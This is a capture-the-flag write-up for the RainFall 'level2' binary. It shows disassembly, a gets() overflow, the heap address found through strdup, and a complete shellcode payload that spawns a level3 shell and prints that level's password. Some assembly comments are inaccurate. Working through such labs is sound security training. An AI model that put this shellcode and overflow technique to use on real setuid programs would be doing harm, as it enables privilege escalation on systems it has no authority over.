


# level2

## Hint

When we log into the machine as `level2`, we notice a binary that segfaults when we run it without a parameter:

```shell-session
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

That being said, it seems we need to look into the binary in order to try to understand what input it's awaiting.

## gdb

### getting to know the binary

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>             <-- Call to function p()
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68                  <-- Space of 80 bytes allocated for the stack frame
   0x080484da <+6>:	mov    eax,ds:0x8049860          <-- Load of stdout to eax
   0x080484df <+11>:	mov    DWORD PTR [esp],eax       <-- Set stdout as argument to fflush()
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>    <-- Call to fflush(stdout)
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]            <-- Load of buffer[76]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax       <-- Set buffer as argument to gets()
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>      <-- Call to gets(buffer)
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]   <-- Load int memory
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000            <-- Add 0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000            <-- Compare memory with 0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>          <-- If not equivalent, jump to p+83
   0x08048507 <+51>:	mov    eax,0x8048620             <-- Set "(%p)\n"
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]   <-- Load int memory
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx   <-- Set int memory as argument to printf()
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax       <-- Set "(%p)\n" as argument to printf()
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>    <-- Call to printf("(%p)\n", &memory)
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1       <-- Set 1 as argument to exit()
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>     <-- Call to exit(1)
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]            <-- Load of buffer[76]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax       <-- Set buffer as argument to gets()
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>      <-- Call to puts(buffer)
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]            <-- Load of buffer[76]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax       <-- Set buffer as argument to gets()
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt> <-- Call to strdup(buffer)
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

There seems to be a lot going on here.

Indeed there could be several ways for us to make this executable open a shell for us:
1. use a `ret2libc` exploit by injecting a shell code that would call a `/bin/sh` from within the available symbols in the binary.
2. use a `ROP` (return oriented programming) exploit, in order to carefully sequence a series of `RET` operation with addresses, that will allow the cherry picking of instructions to execute.
3. Inject a shellcode on the heap, and execute it thanks to a RIP register overwrite

We will try the third one.

### Heap based shellcode

We know this is possible because there is a function call (strdup) that will allocate on the HEAP a chunk of data that we may very well have tailored to call the wanted functions from the libc.

To do that we first need to determine the size of the buffer.

Using our favourite [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can determine that size.



We then use the address returned by gdb in order to determine the size of the buffer



The tool tells us that the buffer indeed had a size of 80.

Now that we have the size of the buffer, as for the previous exercise, we must find the address to overwrite the Return Instruction Pointer register with.

This will allow us to send the execution to where we will have allocated our malicious shellcode

Obviously, that address will be the one at the start of the HEAP, since that's where our shellcode will be allocated by the call to `strdup`.

So how do we find the start address of the that chunk of HEAP memory ?
Easily enough: `info proc mappings`, though obviously enough, we need to set a breakpoint AFTER the call to the HEAP-allocating function `strdup`.

```gdb
gdb-peda$ b *p+105
Breakpoint 1 at 0x804853d
[...]
[-------------------------------------code-------------------------------------]
   0x8048532 <p+94>:	lea    eax,[ebp-0x4c]
   0x8048535 <p+97>:	mov    DWORD PTR [esp],eax
   0x8048538 <p+100>:	call   0x80483e0 <strdup@plt>
=> 0x804853d <p+105>:	leave
   0x804853e <p+106>:	ret
   0x804853f <main>:	push   ebp
   0x8048540 <main+1>:	mov    ebp,esp
   0x8048542 <main+3>:	and    esp,0xfffffff0
[...]
gdb-peda$ info proc mappings
process 7541
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]     <---- START ADDRESS OF HEAP
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
gdb-peda$
```

Okay now, last part before we can say we have officially hacked that binary: the shellcode.

Our shellcode must be one to call a `/bin/sh` binary to open a shell for us.
There are plenty available on [shellstorm](http://shell-storm.org/), so it doesn't really matter which one we take as long as it's at least smaller that 80 bytes. (because we need room for the HEAP address we have found before)

Our shellcode is found [here](http://shell-storm.org/shellcode/files/shellcode-811.php) and it is 28 bytes long. That means that for the overflow to happen we must concatenate a 52 byte padding to the shell code, and then the address we mentionned before.

```shell-session
level2@RainFall:~$
(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'thisisjustbutapaddingtoguaranteethatwehaveanoverflow' + '\x08\xa0\x04\x08'"; cat -)>
1Ph//shh/bin�°
              ̀1@̀thisisjustbutapaddingtoguaranteethveanoverflow
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```


